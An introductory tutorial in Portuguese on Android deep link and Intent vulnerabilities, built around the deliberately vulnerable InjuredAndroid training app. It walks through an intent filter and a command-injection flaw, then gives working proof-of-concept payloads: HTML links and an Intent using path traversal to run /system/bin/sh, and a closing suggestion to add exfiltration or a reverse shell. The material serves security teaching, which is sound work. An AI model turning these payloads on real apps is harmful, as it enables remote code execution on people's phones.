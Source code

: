 # Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.

## AndroidManifest.xml

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Para mais conteúdos em português, recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## intent://

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## < intent-filter >

Como o Android sabe a qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele. O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro).

Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do `<intent-filter>`, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## flag13://rce

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função [`Runtime.getRuntime().exec()`](https://developer.android.com/reference/java/lang/Runtime#exec(java.lang.String[])) as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo, ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa PoC terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante

`index.html`
```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27&param=1">pwn me</a>
```

*Deixo de tarefa de casa exfiltrar o resultado do comando, ou abrir uma reverse shell no Android*

## S.Intent_Extras

Agora digamos que ao invés de receber as variáveis via *query*, o App as recebesse via Intent Extras, como fazer? Para criar um Intent com Extras apenas usamos a função [putExtra](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)).

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
intent.putExtra("binary","../../../../../system/bin/sh -c 'id'");
intent.putExtra("param","1");
startActivity(intent);
```

Ok, com isso conseguimos passar Intents Extras por meio de outro App, mas e pelo Browser? Nós podemos utilizar o scheme [`intent://`](https://developer.chrome.com/docs/multidevice/android/intents/) para isso! O Intent de cima fica assim :

```html
<a href="intent://rce/#Intent;scheme=flag13;S.binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27;S.param=1;end">pwn me</a>
```

Primeiro vem o scheme `intent://`, depois o host `rce` e logo após a string `#Intent`, que é obrigatória. A partir dai todas as variáveis são delimitadas por `;`. Passamos o `scheme=flag13` e definimos os Extras. O nome do Extra é precedido do tipo dele, como o Extra `binary` é do tipo String ele é definido com `S.binary`. Os Extras podem ter vários tipos, como a documentação do scheme `intent://` é escarsa, o melhor jeito é ler o código fonte do Android que faz o *parse* dele:  https://cs.android.com/android/platform/superproject/+/master:frameworks/base/core/java/android/content/Intent.java;l=7115;drc=master

```java
if      (uri.startsWith("S.", i)) b.putString(key, value);
else if (uri.startsWith("B.", i)) b.putBoolean(key, Boolean.parseBoolean(value));
else if (uri.startsWith("b.", i)) b.putByte(key, Byte.parseByte(value));
else if (uri.startsWith("c.", i)) b.putChar(key, value.charAt(0));
else if (uri.startsWith("d.", i)) b.putDouble(key, Double.parseDouble(value));
else if (uri.startsWith("f.", i)) b.putFloat(key, Float.parseFloat(value));
else if (uri.startsWith("i.", i)) b.putInt(key, Integer.parseInt(value));
else if (uri.startsWith("l.", i)) b.putLong(key, Long.parseLong(value));
else if (uri.startsWith("s.", i)) b.putShort(key, Short.parseShort(value));
else throw new URISyntaxException(uri, "unknown EXTRA type", i);
```


Por fim só colocar um `end` (:


## ;end

Podem existir vários tipos de vulnerabilidades oriundas dos Intents, RCE/SQLi/XSS até Buffer Overflow, vai depender só da criatividade do desenvolvedor. Para estudar esse assunto mais a fundo, recomendo a leitura do blog do [@bagipro_](https://twitter.com/_bagipro) https://blog.oversecured.com/ e dos reports públicos de Bug Bounty https://github.com/B3nac/Android-Reports-and-Resources . Além do [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) também podem brincar com o [Ovaa](https://github.com/oversecured/ovaa). |-|4ck th3 |>l4n3t 

[@caioluders ](twitter.com/caioluders/)
